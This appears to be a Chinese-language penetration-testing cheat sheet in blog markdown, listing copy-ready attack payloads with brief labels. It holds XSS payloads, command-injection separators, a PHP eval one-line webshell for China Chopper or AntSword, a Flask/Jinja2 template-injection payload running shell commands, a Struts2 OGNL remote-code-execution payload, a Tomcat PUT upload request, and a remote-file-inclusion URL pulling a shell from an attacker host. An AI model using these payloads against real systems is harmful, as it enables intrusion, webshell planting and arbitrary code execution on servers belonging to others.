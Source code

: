 ```yaml
---
title: "速查表"
date: 2024-12-20T20:27:00+08:00
draft: false
tags: ["SECURITY"]
---
```


### XSS
```html
<script>alert(666);</script>
<a href="javascript:alert(666)">touch me!</a>
<img src=1 onerror=alert(666)>
<input type=text onclick=alert(666) />
```
变体：改大小写，加引号，斜杠代替空格，使用回车与换行符，使用编码

### 管道符
#### Linux常用管道符：
    ;前面的执行完执行后面的
    |显示后面的执行结果
    ||当前面的执行出错时执行后面的
#### Windows常用管道符
    &前面的语句为假则直接执行后面的
    &&前面的语句为假则直接出错，后面的也不执行
    |直接执行后面的语句
    ||前面出错执行后面的

### 危险函数与常量
#### PHP中常见代码执行函数：
    array_map()
    eval()
    assert()
    preg_replace()
    call_user_func()
    $a($b)动态函数

#### PHP中常见系统命令执行函数：
    system()
    exec()
    shell_exec()
    passthru()
    popen()
    反引号"`"
#### 危险常量
```php
__LINE__       //文件中的当前行号
__FILE__       //文件的完整路径和文件名。如果用在被包含文件中，则返回被包含的文件名
__DIR__        //文件所在的目录。如果用在被包括文件中，则返回被包括的文件所在的目录
__FUNCTION__   //该常量所在的函数名称（PHP 4.3.0 新加）。自PHP5起本常量返回该函数被定义时的名字（区分大小写）。在PHP4中该值总是小写字母的
__CLASS__      //该类被定义时的名字（PHP 4.3.0 新加）。自PHP5起本常量返回该类被定义时的名字（区分大小写）
__TRAIT__      //Trait的名字（PHP 5.4.0 新加）。自PHP5.4.0起，PHP实现了代码复用的一个方法，称为traits
__METHOD__     //类的方法名（PHP 5.0.0 新加）。返回该方法被定义时的名字（区分大小写）
__NAMESPACE__  //当前命名空间的名称（区分大小写）。此常量是在编译时定义的（PHP 5.3.0 新增）
```

### 一句话系列
```php
<?php phpinfo();?>
```
查看配置信息（注：php报错时会暴露绝对路径）
```php
<?php @eval($_POST["123456"])?>
```
一句话木马，后期可使用中国菜刀或中国蚁剑进行文件内容查看
```java
_(new java.lang.ProcessBuilder("touch","/tmp/success")).start()=sy
```
Spring漏洞关键代码段
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
flask执行任意代码漏洞
```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```
Apache 任意代码执行漏洞
```
PUT/hack.jsp HTTP/1.1
...
<%out.print("Hello, world!")%>
```
Tomcat 任意文件上传漏洞

```URL
http://[dest_IP]/include.php?page=http://[src_IP]/shell.txt
```
远程文件包含
```URL
?page=php://input
```
在POST请求中填入代码即可远程执行